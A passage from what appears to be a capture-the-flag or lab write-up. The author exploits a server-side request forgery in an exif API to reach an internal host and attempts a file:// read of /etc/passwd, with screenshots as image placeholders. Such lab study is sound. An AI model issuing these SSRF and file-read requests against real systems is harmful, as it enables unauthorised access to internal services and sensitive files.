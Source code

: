 So this is like an internal api stuff because port 8080 is not available externally when i scanned with nmap.&#x20;

So maybe we can pass it as a value to the `url` parameter.

Navigating to --> `http://10.10.30.114/api/exif?url=http://api-dev-backup:8080/` .

<figure><img src=".gitbook/assets/image (338).png" alt=""><figcaption></figcaption></figure>

What about trying to read files again?

I forgot to add the `/exif/` ie; `http://10.10.30.114/api/exif?url=http://api-dev-backup:8080/exif`

So:

`http://10.10.30.114/api/exif?url=http://api-dev-backup:8080/exif?url=file://etc/passwd`

<figure><img src=".gitbook/assets/image (339).png" alt=""><figcaption></figcaption></figure>

So some words are banned :(

But when we pass no value to the `url` parameter we get a different response:

`http://10.10.30.114/api/exif?url=http://api-dev-backup:8080/exif?url=`

<figure><img src=".gitbook/assets/image (340).png" alt=""><figcaption></figcaption></figure>
